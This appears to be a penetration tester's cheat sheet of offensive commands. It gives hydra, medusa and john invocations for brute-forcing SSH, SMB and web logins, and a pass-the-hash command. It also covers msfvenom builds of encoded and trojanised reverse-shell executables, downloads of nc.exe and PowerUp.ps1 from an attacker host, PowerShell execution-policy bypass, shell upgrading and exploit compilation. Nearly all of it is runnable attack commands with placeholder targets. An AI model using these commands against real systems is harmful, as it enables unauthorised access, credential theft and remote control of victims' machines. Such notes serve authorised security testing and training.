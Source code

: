 ## Password Cracking:
```
$john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt

$hydra -l <user> -p <pass> <ip> -t 4 ssh

PASS THE HASH:/usr/bin/pth-winexe -U administrator% //<ip> cmd

$hydra <ip> -l <user> -p <pass> http-get-form "/base-login.asp:txtLoginID=^USER^&txtPassword=^PASS^&cmdSubmit=Login:ACCESS DENIED" -t 64

$hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
	

$hydra -l user -P /usr/share/wordlists/metasploit/common_roots.txt <ip> smb

$medusa -h <ip> -u <user> -P password-file.txt -M http -m DIR:/admin -T 10
```

## Issues with session:

> killall -w openvpn

## FILE TRANSFER:
```
$tftp -i <ip> get nc.exe

Invoke-WebRequest "http://<ip>/PowerUp.ps1" -OutFile "C:~\PowerUp.ps1"'

powershell.exe -exec bypass

Import-Module .\PowerUp.ps1
```


## MSFVENOM: 
```
$msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

$msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o rev_shell.exe

$msfvenom -l payloads
```

## SHELL SPAWNING:
```
stty tab auto
python -c ‘import pty; pty.spawn("/bin/bash")’
python -c 'import pty;pty.spawn("/bin/bash");'
python -c 'import pty; pty.spawn("/bin/sh")'
```
## Prv esc reminders:

ALWAYS DO SUDO -L

linux payload:
> linux/x86/shell/reverse_tcp

windows payload: 
> windows/shell_reverse_tcp

upgrade to meterpreter payload
> post/multi/manage/shell_to_meterpreter


SEE WHATS RUNNING 

sudo lsof -i -P -n | grep LISTEN

## MISC

Compile linux exploits
> $i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

Burpsuite url enoding is ctr-u

Gobuster location

> gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt



NIKTO:

> $nikto -host <ip>


FTP ANON:

> $python -m pyftpdlib -p 21 -w

SMB LOGIN:
```
smbclient //<ip>/"share"
Smbclient -L <ip>

Invoke-WebRequest -OutFile PowerUp.ps1 http://<ip>
```